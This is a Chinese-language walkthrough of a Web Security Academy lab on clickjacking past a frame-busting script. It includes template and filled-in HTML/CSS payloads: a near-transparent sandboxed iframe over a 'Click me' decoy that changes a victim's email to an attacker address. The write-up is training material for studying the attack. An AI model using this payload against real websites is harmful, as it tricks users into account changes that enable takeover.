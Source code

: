 
---


> 
<h3>实验3：使用帧破坏脚本进行点击劫持</h3>
信息：
1、本实验室受框架破坏器保护，可防止网站被框架破坏。
2、解决实验：制作一些HTML来构建帐户页面，并欺骗用户通过点击“点击我”来更改他们的电子邮件地址
3、已有账号：wiener:peter
<hr/>
part1:
登录账号
转到利用漏洞攻击服务器，对模板进行以下调整：
1、将YOUR-LAB-ID替换为自己实验室ID，以便URL指向目标网站的用户帐户页面，其中包含"更新电子邮件"表单<br/> 2、用合适的像素值替换iframe的$height_value和$width_value变量（建议分别为700 px和500 px）。<br/> 3、用合适的像素值替换诱饵网页内容的$top_value和$side_value变量，使"更新电子邮件"按钮和"测试我"诱饵动作对齐（分别为450px和80px）<br/> 4、设置不透明度值$opacity以确保目标iframe是透明的。最初，使用0.1的不透明度，以便可以对齐iframe操作并根据需要调整位置值。对于提交的攻击，值0.0001将起作用。
5、注意sandbox ="allow-forms"属性的使用，该属性中和了framebuster脚本
<pre><code>&lt;style&gt;
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
&lt;/style&gt;
&lt;div&gt;Test me&lt;/div&gt;
&lt;iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"&gt;&lt;/iframe&gt;

我的是：
&lt;style&gt;
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index: 1;
    }
&lt;/style&gt;
&lt;div&gt;Click me&lt;/div&gt;
&lt;iframe sandbox="allow-forms"
src="https://0a0f00a603703c46c2fb259800fa00bc.web-security-academy.net/my-account?email=hacker@attacker-website.com"&gt;&lt;/iframe&gt;
</code></pre>
<hr/>
part2:
单击存储，然后单击查看漏洞（view）<br/> 将鼠标悬停在"Test me"上，确保光标变为手形，指示div元素的位置正确。如果没有，请通过修改样式表的top和left属性来调整div元素的位置
（这里是一个“Update email”按钮）
